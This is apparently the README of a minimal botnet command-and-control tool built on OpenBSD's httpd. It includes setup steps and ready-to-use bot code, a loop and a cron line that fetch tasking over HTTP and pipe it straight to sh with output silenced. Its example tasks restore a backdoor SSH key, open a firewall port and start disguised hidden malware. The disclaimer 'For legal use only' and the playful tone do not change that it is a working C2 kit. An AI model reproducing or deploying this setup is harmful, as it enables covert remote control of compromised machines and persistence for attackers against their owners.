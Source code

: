 [OpenBSD `httpd(8)`](https://man.openbsd.org/httpd.8) Botnet Controller
-----------------------------------------------------------------------------------
A cheesy botnet controller which uses
[OpenBSD's `httpd(8)`](https://man.openbsd.org/httpd.8) to do the
heavy lifting.

Meant to demonstrate what just a little code can do.

It consists of three parts:
1.  A shell script to watch `/var/www/logs/access.log` for the purposes of...
    1.  Noting when bots call back
    2.  Deleting picked-up tasking
2.  Another shell script to add a task for a bot
3.  This README, with [setup instructions](#Setup)

For legal use only.

Features
--------
- Fewer than 100 lines of code.
- Comms over HTTP(s).
- Integration with existing [`http.conf`](https://man.openbsd.org/httpd.conf.5) files.
- Deletion of tasks sent to bots.
- No command output which causes mental clutter.  Or any output at all.
- No new syntax to learn; everything is done with normal shell things.
- Possible but untested portability to HTTP servers on other OSs.
- [Tests](./t), and a very complex [Makefile](./Makefile) to run them.

Setup
-----
1.  Create a group for botnet operators.  Alternatively, don't and adjust the
    rest of the steps accordingly.
    ```sh
    doas groupadd botnet
    doas usermod -G botnet $(whoami)
    ```
    Logout and login so new group takes effect.  Use `id` to verify.  It should
    look something like
    ```
    uid=1000(you) gid=1000(you) groups=1000(you), 1001(botnet)
    ```
2.  Create a directory for storing and serving tasking
    ```sh
    doas mkdir -p /var/www/htdocs/httpd_botnet_controller
    doas chgrp botnet /var/www/htdocs/httpd_botnet_controller
    doas chmod g=rwx /var/www/htdocs/httpd_botnet_controller
    ```
    And make sure all went well by adding and removing a file.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/test &&
    rm -v /var/www/htdocs/httpd_botnet_controller/test
    ```
3.  Add a line in whatever chunk of
    [`httpd.conf`](https://man.openbsd.org/httpd.conf.5) will serve
    up our new tasking directory to serve an empty file instead of the default
    404 page if there's no tasking.
    ```
   	location not found match "/(httpd_botnet_controller)/.*" {
		request rewrite "/%1/_empty"
	}
    ```
    With the default config (i.e. the one from `/etc/examples/httpd.conf`) this
    will probably be in a `server {}` block
4.  Make the empty file to serve.
    ```sh
    touch /var/www/htdocs/httpd_botnet_controller/_empty
    ```
5.  Clone this repository and start the controller going.  
    ```sh
    git clone https://github.com...
    cd httpd_botnet_controller
    make # To run tests, optional
    ./httpd_botnet_controller.sh
    ```
Everything's set up.  Head down to the [Bots](#Bots) section to get bots going.

Bots
----
Bot interactions are governed by the following principles.

1.  Each bot has its own ID consisting of letters, numebers, dots, and hyphens.
    Hostnames work pretty well.
2.  Tasking is retrieved via HTTP(S) requests to
    `/httpd_botnet_controller/$ID` which serve up files from 
    `/var/www/htdocs/httpd_botnet_controller/$ID`.  What the bot does with the
    tasking is the bot's own business.
3.  When `httpd(8)` logs that a bot has requested tasking, a file in
    `$HOME/bots` is touched and `/var/www/htdocs/httpd_botnet_controller/$ID`
    is deleted.  This is inherently racy; make sure bots don't request tasking
    too often.

### Bot Code

In practice, this works out to bots being a little script like
```sh
#!/bin/sh
SERVER=https://your_server
while :; do
    curl -s $SERVER/httpd_botnet_controller/$(hostname) | sh >/dev/null 2>&1 &
    sleep 600 
done
```
or maybe a cronjob like
```cron
~/10    *   *   *   *   curl -s $SERVER/httpd_botnet_controller/$(HOSTNAME) | sh >/dev/null 2>&1 &
```

Output is up to you.

### Bot List
IDs of bots which have called back are stored in `$HOME/bots`.  These can be
sorted and filtered and so on with the customary shell tools.

Tasking
-------
Tasking takes the form of files in `/var/www/htdocs/httpd_botnet_controller/`
with the name of the bots` IDs.

Instead of manually making files in `/var/www/htdocs/httpd_botnet_controller/`,
the script [`task_bot.sh`](./task_bot.sh) may be used.  It takes as its first
argument the ID for which to queue tasking and the remaining arguments are
appended to the tasking file as a single line.  If there's no other arguments
stdin is appended to the tasking file. 

This works out to something like either
```sh
./task_bot.sh bot_1 cat <~/.ssh/ak.bak >>~/.authorized_keys
```
to add back a backup backdoor key or
```sh
./task_bot.sh bot_2 <<_eof
bash <<<'
iptables -I INPUT -p tcp --dport 44444 -j ACCEPT
exec -a not_malware /root/.hidden_backdoor' >/dev/null 2>&1 &
_eof
```
to reopen a in the firewall and start expertly hidden malware.

Config
------
The following environment variables configure both scripts:

Name           | Default                          | Description
---------------|----------------------------------|------------
`CHECKIN_PATH` | `httpd_botnet_controller`        | URL Path used for checking-in, followed by `/$ID`
`HTTPDLOGFILE` | `/var/www/logs/access.log`       | `httpd(8)`'s logfile
`LAST_DIR`     | `$HOME/bots`                     | Directory in which bots' last check-ins are noted as empty files
`TAILFLAGS`    | `-f -n -0`                       | Flags used by [`tail(1)`](https://man.openbsd.org/tail.1) for watching `$HTTPDLOGFILE`
`TASKING_DIR`  | `/var/www/htdocs/$CHECKIN_PATH}` | Directory in which tasking lives
